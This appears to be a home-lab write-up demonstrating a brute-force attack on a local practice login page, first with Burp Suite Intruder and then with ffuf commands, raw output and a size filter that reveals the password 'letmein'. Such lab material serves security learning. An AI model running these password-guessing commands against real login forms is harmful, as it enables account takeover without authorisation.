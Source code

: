 # Attacking Authentication - Brute Force

- We have a login form with the user account named "Jeremy".

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cb006310-f3a7-4490-a15f-08002bf63320)


- We need brute-forcing to crack the password of a user named "Jeremy"
- For this let's intercept the request to the Burp suite.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/809df1c7-3f30-43f8-9acb-eadc92ea5337)


- After sending a request to the intruder we selected the payload password parameter by clicking on Add.
- Next step is to add a wordlist to start the brute-forcing the password on the user "Jeremy"

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/504493fe-d6c9-4faf-bae3-d5ab3068574e)
![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a55dbd36-74d2-45cc-af29-9a19d6fec711)


- On adding the wordlist as the payload of passwords we selected Start attack.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/de3fdf99-75e2-468b-9530-bb236ef24812)

- There is a page length difference in the result hope we have got our password successfully

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b9e7f512-6980-4eb9-a09d-3734430f205e)

- On trying with username `jeremy` and password `letmein` we got successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/229f2a26-a60f-43ac-ae69-5bd5e7ab2b50)
![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/534c981e-7bc8-4107-9353-f29e1b81bc21)

## Alternate

- To make the process brute-forcing faster we will copy the intercepted request and copy it to a file in the local machine.
- Make a change in copied request by renaming the password parameter to "FUZZ" and saving it.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/1b0d0668-9795-4b3f-9766-1395eef0a1e6)

- Now, we use a tool named "FFUF" to make the brute-forcing process faster.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt`

```bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Origin: http://localhost
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 20ms]
    * FUZZ: letmein

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 20ms]
    * FUZZ: qwerty

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: password

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 47ms]
    * FUZZ: baseball

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: superman

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: zxcvbnm

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: 12345
------------snip------------------
[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: 222333

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 13ms]
    * FUZZ: armani

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: attack

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: anhyeuem

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: zenith

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: thomas1

[WARN] Caught keyboard interrupt (Ctrl-C)
```

- It is making numerous requests per second we need to filter out the "size: 1814" for getting clean results.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`

``` bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://localhost
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Host: localhost
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 4ms]
    * FUZZ: letmein

:: Progress: [10000/10000] :: Job [1/1] :: 3846 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
- We successfully cracked the password "letmein".
